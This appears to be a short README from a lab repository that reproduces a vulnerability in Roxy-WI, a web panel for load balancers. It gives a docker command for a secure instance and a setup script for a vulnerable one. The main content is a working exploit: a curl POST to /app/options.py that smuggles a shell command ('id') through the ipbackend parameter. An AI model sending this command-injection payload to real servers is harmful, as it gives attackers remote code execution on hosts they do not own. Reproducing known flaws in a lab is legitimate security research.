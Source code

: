 # secure instance
```bash
docker run -d --name roxy-wi -p 443:443 -p 8765:8765 registry.roxy-wi.org/roxy-wi
```
go to https://localhost

# vulnerable instance
Based on an ubuntu 24.04 virtual machine: 
```bash
bash vulnerableInstance.sh
# execute the exploit for `id` command
curl -X POST "https://localhost/app/options.py" --data "alert_consumer=1&serv=127.0.0.1&ipbackend=\";id+##&backend_server=127.0.0.1" -H "X-Requested-With: XMLHttpRequest" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" --insecure
```
